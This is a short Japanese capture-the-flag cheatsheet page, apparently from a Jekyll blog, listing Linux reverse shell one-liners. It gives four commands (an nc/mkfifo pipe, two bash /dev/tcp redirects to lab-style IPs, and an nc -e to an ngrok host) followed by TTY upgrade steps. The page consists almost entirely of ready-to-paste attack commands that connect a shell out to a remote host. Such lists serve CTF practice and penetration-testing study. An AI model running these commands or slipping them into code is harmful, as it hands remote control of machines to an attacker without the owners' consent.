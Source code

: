 ```yaml
---
layout: post
title: "linux_reverse_shell"
published : true
permalink: /ctf/cheatsheets/common/linux_reverse_shell
tags: CTF Common cheatsheet linux "reverse shell"
---
```

## リバースシェル
- コマンド1
```sh
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.19 7777 >/tmp/f
```
- コマンド2
```sh
bash -i >& /dev/tcp/10.10.14.14/7777 0>&1
```
- コマンド3
```sh
'bash -c "bash -i >& /dev/tcp/10.10.14.4/443 0>&1"'
```
- コマンド4
```sh
nc 0.tcp.jp.ngrok.io:14497 -e /bin/sh
```

## シェルのアップグレード
```
script /dev/null -c bash
```

## シェルをさらにアップグレード
```
(Ctrl + z)
stty raw -echo ; fg
```
